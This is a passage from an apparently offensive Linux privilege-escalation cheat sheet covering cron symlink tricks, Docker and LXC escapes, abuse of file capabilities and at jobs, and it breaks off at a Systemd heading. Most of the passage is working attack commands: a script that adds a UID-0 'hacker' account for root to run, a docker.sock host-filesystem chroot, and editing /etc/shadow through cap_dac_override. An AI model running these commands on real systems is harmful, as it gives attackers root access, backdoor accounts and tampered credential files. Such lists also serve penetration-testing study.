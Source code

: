 **Exploit Example:**
```bash
echo 'useradd hacker -ou 0 -g 0' > /tmp/malicious.sh  
chmod +x /tmp/malicious.sh  
ln -s /tmp/malicious.sh /var/tmp/rootscript
```
(Trick root-owned cron/service to execute your script.)

---

## 8. Docker / LXC / Kubernetes Priv Esc

**Containers may have access to host resources.**

**Exploit Example:**
```bash
# If docker.sock is mounted
docker run -v /:/mnt --rm -it ubuntu chroot /mnt bash

# Misconfigured capabilities
docker run --cap-add=SYS_ADMIN -it ubuntu bash
```

---

## 9. Exploiting Capabilities Beyond SUID

**Binaries with dangerous Linux capabilities can be abused.**

**Exploit Example:**
```bash
getcap -r / 2>/dev/null
# If cap_dac_override is set:
cp /etc/shadow /tmp/shadow_copy  
nano /tmp/shadow_copy  
cp /tmp/shadow_copy /etc/shadow
```

---

## 10. Scheduled Tasks Outside Cron

**`at` jobs or systemd timers can execute as root.**

**Exploit Example:**
```bash
echo '/tmp/malicious.sh' | at now + 1 minute
systemctl cat some_timer.service
# Edit EnvironmentFile or ExecStartPre if writable
```

---

## 11. Systemd Misconfigurations
